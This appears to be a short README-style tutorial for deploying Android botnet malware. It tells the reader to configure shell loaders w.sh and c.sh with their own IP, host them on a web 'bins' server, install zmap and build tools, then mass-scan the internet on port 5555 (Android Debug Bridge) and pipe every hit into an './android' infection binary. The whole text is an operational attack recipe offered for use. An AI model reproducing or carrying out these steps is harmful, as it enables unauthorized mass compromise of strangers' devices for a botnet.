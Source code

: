 tutorial by influence 

edit src/main.c on line 211

now edit w.sh and c.sh with your ipv4 address and bins (of your bins server)
then put it to /var/www/html to your bins server

now go to your scanning server and execute these commands
yum install epel-release -y 
yum install zmap -y 
yum install gcc gcc-c++ -y 

sh build.sh

ulimit -n 999999;ulimit -u999999; zmap -p 5555 -o- -q -v0 -T3 | awk {'print $1":5555"'} | ./android

